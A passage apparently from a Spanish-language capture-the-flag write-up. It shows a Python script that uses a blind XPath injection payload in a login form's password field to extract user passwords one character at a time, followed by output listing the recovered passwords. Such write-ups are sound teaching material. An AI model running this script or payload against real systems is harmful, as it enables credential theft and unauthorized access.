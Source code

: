 ```null

        r = requests.post(login_url, data=post_data, proxies=burp)

        if "Invalid credentials." not in r.text:
            return length


def getpass(user, length):

    password = ""

    for position in range(1, length+1):

        for character in characters:
            post_data = {
            'Username':'admin',
            "Password": "admin' or Username='%s' and substring(Password,%d,1)='%s" % (user, position, character)
            }

            r = requests.post(login_url, data=post_data, proxies=burp)

            if "Invalid credentials." not in r.text:
                password += character
                break
    return password


if __name__ == '__main__':

    for user in users:
        length = getpasslen(user)
        print("[+] User %s: %d characters" % (user, length))

        password = getpass(user, length)
        print("\t[+] Password %s" % password)
```

```null
python3 xpathi.py
[+] User rita: 11 characters
        [+] Password password01!
[+] User jim: 16 characters
        [+] Password stairwaytoheaven
[+] User bryan: 23 characters
        [+] Password ireallyl0vebubblegum!!!
[+] User sarah: 10 characters
        [+] Password sarah4evah
```

Una es válida por SSH
